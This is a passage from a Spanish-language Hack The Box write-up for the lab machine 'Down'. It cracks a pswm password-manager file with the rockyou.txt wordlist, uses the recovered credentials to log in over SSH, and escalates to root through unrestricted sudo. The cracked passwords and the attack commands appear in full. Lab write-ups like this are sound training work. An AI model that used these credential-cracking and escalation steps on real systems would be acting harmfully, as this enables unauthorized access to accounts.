 ```bash
if __name__ == "__main__":
```

Echamos un vistazo al código de la herramienta para entender cómo funciona, tras eso, la ejecutamos y/o hacemos alguna modificación si procede, en este caso, usaremos el diccionario **rockyou.txt** para tratar de desencriptarlo, con un poco de suerte está ahí la contraseña :D.

```bash
$ python3 pswm-decrypt.py -f pswm -w rockyou.txt
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+
```

Podemos ver cómo la herramienta ha conseguido la contraseña, es **flower** para desencriptarla, y la de abajo es la contraseña del usuario, intentemos conectarnos vía ssh con el usuario **aleks** y la contraseña conseguida:

```` bash
$ ssh aleks@10.129.180.121
The authenticity of host '10.129.180.121 (10.129.180.121)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.180.121' (ED25519) to the list of known hosts.
(aleks@10.129.180.121) Password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)
```

Cómo podemos ver, podemos loguearnos, bien, nos falta escalar al usuario **root**, veamos que privilegios como sudo tenemos:

```bash
aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```

Al parecer, podemos ejecutar todo como sudo, por lo tanto, ejecutaremos el comando **sudo su** para suplantar al usuario **root**:

```bash
aleks@down:~$ sudo su
root@down:/home/aleks# whoami
root
root@down:/home/aleks# cd ~ && ls
root.txt  snap
```

Cómo podemos ver, hemos conseguido ser el usuario **root** y encontramos la flag de **root** en su directorio Home.

Hasta aquí el Write-Up de la máquina **Down** de HTB, Keep hacking!
